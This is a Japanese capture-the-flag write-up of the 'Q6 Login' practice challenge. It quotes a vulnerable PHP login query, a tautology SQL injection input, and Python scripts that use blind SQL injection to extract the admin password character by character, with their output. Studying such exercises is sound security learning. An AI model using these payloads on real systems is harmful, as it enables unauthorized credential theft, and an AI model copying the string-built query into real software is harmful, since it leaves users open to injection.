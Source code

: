 
# Q6 Login

## 問題URL 
http://ctfq.sweetduet.info:10080/~q6/
## 概要
IDとPASSの入力フォームがある。`First, login as "admin". ` とメッセージが表示されている。

### SQLインジェクションしてみる
IDに`admin`、PASSに`' OR 'hoge' == 'hoge` を入力して送信。

すると以下のメッセージが表示される。フラグはadminのパスワードらしい。

Congratulations!  
It's too easy?  
Don't worry.
The flag is admin's password.

Hint:

```
function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}

$id = isset($_POST['id']) ? $_POST['id'] : '';
$pass = isset($_POST['pass']) ? $_POST['pass'] : '';
$login = false;
$err = '';

if ($id!=='')
{
    $db = new PDO('sqlite:database.db');
    $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
    $login = $r && $r->fetch();
    if (!$login)
        $err = 'Login Failed';
}
```

## ブラインドSQLについて
ブラインドSQLインジェクションはクエリの結果が表示されない場合に、SQLインジェクションによりデータを盗みだす手法。  
一文字ずつ結果をチェックしていくことで表示されないデータを割り出すことができる。


```python
import urllib

def blindSQL(sql):
    url = 'http://ctfq.sweetduet.info:10080/~q6/'
    payload = {
        'id' : sql,
        'pass' : 'hogehoge'
    }
    payload=urllib.parse.urlencode(payload)
    payload = payload.encode('ascii')
    response = urllib.request.urlopen(url,payload)
    
    return urllib.request.urlopen(url,payload)
```

### パスワード長の特定
以下のスクリプトでパスワード長を特定する。  
正解判定は先程のインジェクション成功時の文字列長(ほどほどに長ければなんでも良い)


```python
for i in range(1, 100):
    sql = 'admin\' AND (SELECT LENGTH(pass) FROM user WHERE id = \'admin\') = {counter} --'.format(counter = i)
    response = blindSQL(sql)
    if len(response.read()) > 2000:
        print('length of the password is {counter}'.format(counter = i))
        break
```

    length of the password is 21


これによりパスワード長は21と判明。  
次に一文字ずつパスワードを調べていく。  
文字コードの対応は以下の通り


```python
text=''
for i in range(48,123):
    text+=chr(i)
text
```




    '0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz'




```python
for index in range(1, 22):
    for char_number in range(48, 123):
        char = chr(char_number)
        sql = 'admin\' AND SUBSTR((SELECT pass FROM user WHERE id = \'admin\'), {index}, 1) = \'{char}\' --'.format(index = index, char = char)
        response = blindSQL(sql)
        if len(response.read()) > 2000:
            print(char, end="")
            break
```

    FLAG_KpWa4ji3uZk6TrPK

## SQL構文
### SELECT文
`SELECT フィールド名(カラム名) FROM テーブル名`
### WHERE文
任意のフィールドから、条件にマッチしたデータのみを取得する  
`SELECT フィールド名(カラム名) FROM テーブル名 WHERE 条件式`
### SUBSTR文
文字列から指定した箇所を抽出する  
`SUBSTR 文字列　開始位置、抽出文字数`

## 参考URL
https://qiita.com/__k_onishi__/items/f0e8d6c8f0b6c6974ed9
